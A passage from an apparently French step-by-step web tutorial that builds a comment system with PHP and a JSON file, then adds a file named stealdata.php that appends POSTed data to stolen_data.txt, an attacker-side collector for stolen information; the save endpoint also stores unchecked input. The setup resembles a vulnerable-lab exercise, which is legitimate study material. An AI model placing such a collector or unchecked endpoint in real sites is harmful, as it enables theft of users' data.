 ### Étape 3 : Création de `save_comments.php`

Créez un fichier `save_comments.php` avec le contenu suivant :

```php
<?php
if ($_SERVER['REQUEST_METHOD'] == 'POST') {
    $data = json_decode(file_get_contents('php://input'), true);
    file_put_contents('comments.json', json_encode($data));
    if (json_last_error() === JSON_ERROR_NONE) {
        echo 'success';
    } else {
        echo 'error';
    }
} else {
    echo 'Invalid request method';
}
?>
```

**Explication :** Ce fichier reçoit les données JSON pour les commentaires et les enregistre dans `comments.json`. Il est utilisé par le bouton "Annuler le dernier commentaire".

**Ce que vous devriez voir :**
- Lorsque vous

 cliquez sur "Annuler le dernier commentaire", le dernier commentaire ajouté est supprimé et la page est rechargée.

### Étape 4 : Création de `comments.json`

Créez un fichier `comments.json` avec le contenu suivant :

```json
{
    "comments": []
}
```

**Explication :** Ce fichier stocke les commentaires sous forme de JSON.

**Ce que vous devriez voir :**
- Ce fichier sera modifié lorsque des commentaires sont ajoutés ou supprimés.

### Étape 5 : Création des autres fichiers nécessaires

Créez les fichiers suivants avec le contenu respectif :

#### `stealdata.php`

```php
<?php
if ($_SERVER['REQUEST_METHOD'] == 'POST' && !empty($_POST['data'])) {
    $stolenData = $_POST['data'];
    file_put_contents('stolen_data.txt', $stolenData . "\n", FILE_APPEND);
}
?>
```
